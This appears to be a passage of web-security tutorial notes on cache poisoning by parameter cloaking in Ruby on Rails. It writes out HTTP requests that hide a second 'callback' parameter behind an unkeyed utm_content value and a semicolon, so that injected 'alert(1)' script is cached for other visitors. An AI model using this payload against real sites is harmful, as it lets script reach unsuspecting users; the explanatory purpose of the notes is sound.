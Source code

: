 ***

**Rackcache (Ruby on Rails cache Framework) Exploit for Cache Poisoning:**

So the <mark class="hltr-red">Ruby on Rails</mark> Framework treats `;` as `&` in the URL. For Example:

```
/?param1=test&param2=foo  
/?param1=test;param2=foo

These both are same in Ruby On Rails
```

Most of the times, *UTM variables are intended to be processed on the client side, they're ignored by default like:* **utm_content**,**utm_source** etc.

On ruby on rails we can exploit this as follow:

```
GET /main.js?callback=alert(&utm_content=x;callback=alert(1)// HTTP/1.1   
Host: example.com      

HTTP/1.1 200 OK   
X-Cache: HIT

alert(1)//(some-data)
```

In the above request there is a parameter callek `callback` whose value was being reflecting in a js file. So what we did was we add an parameter `utm_content` which is being excluded from the Cache Key as i mentioned above. and we used `;` as a parameter-delimeter, the Cache server sees `callback=legit` as the **utm_content** is excluded from cache key so it confuses and only add the first callback value in the cache Key.

```
GET /jsonp?callback=legit HTTP/1.1   
Host: example.com      

HTTP/1.1 200 OK   
X-Cache: HIT   
alert(1)//(some-data)
```

But, Rails is very chaalak(intelligent) bro, so it recognise that `;` is similar to `&` so it prioritise the second value of ==callback== and return the value in response.

The attack we performed above by hiding the second parameter `callback` from cache key, is known as **Parameter Cloaking.**

*TIP: Another way of doing Parameter Cloaking is simply to send a POST request; certain peculiar systems don't bother including the request method in the cache key.*

***

### Fat Get Attack:
